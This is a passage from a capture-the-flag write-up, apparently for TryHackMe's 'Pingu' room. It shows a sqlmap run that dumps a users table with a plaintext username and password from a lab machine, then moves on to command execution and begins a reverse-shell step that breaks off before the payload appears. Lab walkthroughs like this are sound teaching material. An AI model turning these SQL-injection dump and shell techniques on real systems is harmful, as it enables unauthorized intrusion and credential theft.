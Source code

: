 ```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Pingu]
└─$ sqlmap -u http://10.10.110.207/administrator.php --forms --dump

do you want to exploit this SQL injection? [Y/n] Y
[21:48:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[21:48:25] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[21:48:25] [INFO] fetching current database
[21:48:25] [INFO] retrieved: 'users'
[21:48:25] [INFO] fetching tables for database: 'users'
[21:48:25] [INFO] retrieved: 'users'
[21:48:25] [INFO] fetching columns for table 'users' in database 'users'
[21:48:26] [INFO] retrieved: 'username'
[21:48:26] [INFO] retrieved: 'varchar(100)'
[21:48:27] [INFO] retrieved: 'password'
[21:48:27] [INFO] retrieved: 'varchar(100)'
[21:48:27] [INFO] fetching entries for table 'users' in database 'users'
[21:48:27] [INFO] retrieved: 'secretpass'
[21:48:27] [INFO] retrieved: 'pingudad'
Database: users
Table: users
[1 entry]
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+

[21:48:27] [INFO] table 'users.users' dumped to CSV file '/home/hax/.local/share/sqlmap/output/10.10.110.207/dump/users/users.csv'
[21:48:27] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/hax/.local/share/sqlmap/output/results-07222025_0948pm.csv'                                                                                                                                        

[*] ending @ 21:48:27 /2025-07-22/
```

### Command Execution

It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account! Let's run a few test commands, and then try to gain access :

![[Pasted image 20250723184412.png]]

#### Reverse Shell

We set up our listener and execute the payload on the site, i used this and worked :
